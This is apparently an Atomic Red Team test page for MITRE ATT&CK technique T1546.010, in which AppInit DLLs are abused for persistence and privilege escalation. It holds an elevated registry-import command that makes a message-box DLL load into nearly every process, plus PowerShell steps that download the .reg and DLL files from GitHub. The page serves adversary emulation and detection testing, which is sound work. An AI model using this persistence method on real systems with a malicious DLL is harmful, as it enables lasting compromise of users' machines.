 ```yaml
---
tags: [T1546_010, atomic_test]
filename: "[[T1546.010|T1546.010 - Event Triggered Execution: AppInit DLLs]]"
---
```


# T1546.010 - Event Triggered Execution: AppInit DLLs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/010)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by AppInit DLLs loaded into processes. Dynamic-link libraries (DLLs) that are specified in the <code>AppInit_DLLs</code> value in the Registry keys <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows</code> or <code>HKEY_LOCAL_MACHINE\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows</code> are loaded by user32.dll into every process that loads user32.dll. In practice this is nearly every program, since user32.dll is a very common library. (Citation: Elastic Process Injection July 2017)

Similar to Process Injection, these values can be abused to obtain elevated privileges by causing a malicious DLL to be loaded and run in the context of separate processes on the computer. (Citation: AppInit Registry) Malicious AppInit DLLs may also provide persistence by continuously being triggered by API activity. 

The AppInit DLL functionality is disabled in Windows 8 and later versions when secure boot is enabled. (Citation: AppInit Secure Boot)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install AppInit Shim](#atomic-test-1---install-appinit-shim)


<br/>

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regularly as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

Note: If secure boot is enabled, this technique will not work. https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls

**Supported Platforms:** Windows


**auto_generated_guid:** a58d9386-3080-4242-ab5f-454c16503d18





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010.reg|
| registry_cleanup_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import "#{registry_file}"
```

#### Cleanup Commands:
```cmd
reg.exe import "#{registry_cleanup_file}" >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path "#{registry_file}") -and (Test-Path "#{registry_cleanup_file}")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{registry_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1546.010.dll and T1546.010x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1546.010.dll) -and (Test-Path c:\Tools\T1546.010x86.dll)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010.dll" -OutFile C:\Tools\T1546.010.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010x86.dll" -OutFile C:\Tools\T1546.010x86.dll
```




<br/>
